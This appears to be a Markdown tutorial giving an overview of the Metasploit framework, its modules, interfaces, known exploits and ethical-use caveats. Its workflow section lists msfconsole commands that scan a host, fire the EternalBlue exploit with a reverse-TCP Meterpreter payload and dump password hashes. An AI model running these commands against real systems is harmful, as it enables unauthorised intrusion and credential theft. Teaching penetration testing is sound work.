 # 🔥 Metasploit Framework – Complete Guide  

---

## 📌 1. What is Metasploit?  
Metasploit is an **open-source penetration testing framework** used for developing, testing, and executing **exploits** against remote targets.  

- Created in **2003** by **H.D. Moore**  
- Acquired by **Rapid7** in 2009  
- Written mainly in **Ruby**, with some components in C and Python  

👉 Think of Metasploit as a **Swiss Army knife** for penetration testers and red teamers.  

---

## 📌 2. Why Metasploit is Important  
- ✅ **Exploit Development** – Build and test custom exploits safely  
- ✅ **Penetration Testing** – Simulate real-world attacks  
- ✅ **Post-Exploitation** – Maintain access, escalate privileges, gather credentials  
- ✅ **Research & Learning** – Safe way to study vulnerabilities  

---

## 📌 3. Metasploit Architecture  

1. **Exploits** – Code that takes advantage of a vulnerability  
   - Example: EternalBlue (MS17-010)  

2. **Payloads** – Code executed on the target after successful exploitation  
   - **Singles** – Standalone (e.g., add a user)  
   - **Stagers** – Small loader that sets up connection  
   - **Stages** – Larger payloads delivered by stagers (e.g., Meterpreter)  

3. **Meterpreter** – Advanced payload that runs in memory  
   - File transfer  
   - Privilege escalation  
   - Keylogging  
   - Pivoting  

4. **Auxiliary Modules** – Non-exploit tools (scanning, fuzzing, DoS, etc.)  
5. **Encoders** – Evade AV/IDS  
6. **NOPS** – Execution stability fillers  

---

## 📌 4. Interfaces  

- **msfconsole** – Main CLI  
- **msfvenom** – Create payloads  
- **Armitage** – GUI (legacy)  
- **Metasploit Pro** – Paid version with reporting & automation  

---

## 📌 5. Common Workflow  

1. **Information Gathering**  
   ```bash
   use auxiliary/scanner/portscan/tcp
   set RHOSTS 192.168.1.100
   run
````

2. **Vulnerability Scanning**

   ```bash
   use auxiliary/scanner/smb/smb_version
   set RHOSTS 192.168.1.100
   run
   ```

3. **Exploitation**

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.1.100
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.50
   run
   ```

4. **Post-Exploitation**

   ```bash
   getuid
   sysinfo
   hashdump
   migrate
   ```

---

## 📌 6. Real-World Exploits

* **MS08-067 (Conficker Worm)** – Windows RPC exploit
* **MS17-010 (EternalBlue)** – SMBv1 exploit (WannaCry)
* **Shellshock** – Bash vulnerability
* **BlueKeep (CVE-2019-0708)** – RDP exploit

---

## 📌 7. Advantages

* Open-source and extensible
* Large exploit & payload library
* Integrates with **Nmap**, **Nessus**, **Burp Suite**
* Huge community support

---

## 📌 8. Limitations

* Can be detected by AV/EDR
* Requires frequent updates
* Not all exploits are stable

---

## 📌 9. Ethical Use ⚠️

Metasploit is extremely powerful.

* **Use only on systems you own or have written permission to test**
* Illegal use → serious legal consequences

---

## 📌 10. Learning Resources

* 📖 [Metasploit Documentation](https://docs.metasploit.com)
* 🎯 TryHackMe: Metasploit Rooms
* 🎮 HackTheBox Labs
* 📕 *Metasploit: The Penetration Tester’s Guide*

---

✨ **In short:**
Metasploit is the **industry-standard exploitation framework** that combines reconnaissance, exploitation, payload delivery, and post-exploitation into one tool.

```

